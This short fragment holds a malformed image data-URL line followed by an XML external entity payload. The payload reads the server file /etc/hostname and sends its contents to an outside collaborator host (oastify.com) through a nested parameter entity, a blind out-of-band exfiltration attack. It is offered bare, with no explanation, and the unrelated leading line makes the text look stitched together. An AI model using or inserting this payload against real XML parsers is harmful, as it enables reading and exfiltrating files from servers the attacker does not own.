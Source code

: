 <!ENTITY % file SYSTEM "file:///etc/hostname">
<!ENTITY % eval "<!ENTITY &#x25; exfi SYSTEM 'http://vhg2tjf70r712n1g56xyt08vzm5dt5hu.oastify.com/?x=%file;'>">
%eval;
%exfi;
